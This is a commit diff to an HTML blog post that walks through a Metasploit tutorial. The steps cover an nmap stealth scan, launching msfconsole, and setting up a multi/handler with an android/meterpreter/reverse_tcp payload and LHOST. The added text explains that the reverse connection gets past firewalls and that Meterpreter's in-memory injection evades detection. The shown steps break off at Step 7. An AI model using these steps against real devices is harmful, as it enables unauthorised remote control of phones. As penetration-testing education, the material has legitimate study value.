

Before and after one commit to AM-ops/MetasploitProject, a plain HTML site: page blog/post1.html in a window 1280 px wide. Shown: the part 2523-5087 px from the top of the page at 61% size, without its empty margins (313-966 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
post1 updated

```diff
--- a/blog/post1.html
+++ b/blog/post1.html
@@ -95,6 +95,10 @@
                         <p><b style="color: red;">DISCLAIMER:</b> DO NOT TRY THIS AT HOME OR ON PUBLIC NETWORKS!</p>
                         <p><img src="assets/img/ww.gif" class="img-fluid mx-auto d-block" alt="ww"/></p>
                         <h4>Step 1:</h4>
+                        <p>Run the <code style="padding: .2em .4em; margin: 0;font-size: 85%; background-color: #ccc; border-radius: 6px; color: black;">nmap</code> command as shown below</p>
+                        <p></p>
+                        <pre><code data-language="shell">nmap -sS</code></pre>
+                        <p><code style="padding: .2em .4em; margin: 0;font-size: 85%; background-color: #ccc; border-radius: 6px; color: black;">nmap</code> is a Security Scanner that allows us to scan networks with different options. The flags denoted by <code style="padding: .2em .4em; margin: 0;font-size: 85%; background-color: #ccc; border-radius: 6px; color: black;">-sS</code> are the most common and initiate a stealthier scan of the network.</p>
                         <p>Fire up the Metasploit console by running this command on your Kali Linux VM's terminal</p>
                         <pre><code data-language="shell">msfconsole</code></pre>
                         <p>Your terminal should now look something like this</p>
@@ -102,14 +106,19 @@
                         <h4>Step 2:</h4>
                         <p>Your terminal should have "msf6" as its prompt now. This means you can begin to use Metasploit commands. Type the command below.</p>
                         <pre><code data-language="shell">msf6> use exploit/multi/handler</code></pre>
-                        <p>This command </p>
+                        <p>The Multi Handler command launches a stub that runs outside the Framework. This command launches a payload that is specific to our specification.</p>
                         <p><img src="assets/post1pics/msf2.PNG" class="img-fluid mx-auto d-block" alt=""/></p>
                         <h4>Step 3:</h4>
                         <pre><code data-language="shell">msf6> search android/meterpreter</code></pre>
+                        <p>Meterpreter is a tool that is part of the Metasploit Framework which allows you to take advantage of, as well as, find vulnerabilities in a system. This penetration testing tool can easily take hold of victim's resources as needed. Meterpreter utilises an in-memory injection which writes nothing to disk. This allows for the exploit to run without being detected by normal means. A new process is not created, rather it injects itself into a compromised process. For this reason also the forensic footprint left behind by the Meterpreter is extremly limited.</p>
                         <h4>Step 4:</h4>
                         <pre><code data-language="shell">msf6> set payload android/meterpreter/reverse_tcp</code></pre>
+                        <p>When the host initiates a connection, that is called a <i>forward connection</i>. However, when the opposite is done, a server initiates the connection to a host, then it is called a <i>reverse connection</i></p>
+                        <p>Firewalls work on the basic principle of blocking all incoming connection. So all incoming connections (reverse connections) are blocked by the firewall. However, if a host initiates a connection (forward connection) it is allowed and the return for the connection initiated by the host will be permitted.</p>
+                        <p><code style="padding: .2em .4em; margin: 0;font-size: 85%; background-color: #ccc; border-radius: 6px; color: black;">reverse_tcp</code> is basically instead of the attacker initiating the connection which will obviously blocked by the firewall instead, the device initiates the connection to the attacker, which will be allowed by the firewall and the attacker then take control of the device and pass commands. It is a type of reverse shell.</p>
                         <h4>Step 5:</h4>
                         <pre><code data-language="shell">msf6> show options</code></pre>
+                        <p>The above command shows the current options for the payload. These can then be changed as shown below.</p>
                         <h4>Step 6:</h4>
                         <pre><code data-language="shell">msf6> set LHOST ip_address</code></pre>
                         <h4>Step 7:</h4>
```
Also changed, not shown: blog/post3.html (+1 -0 lines).
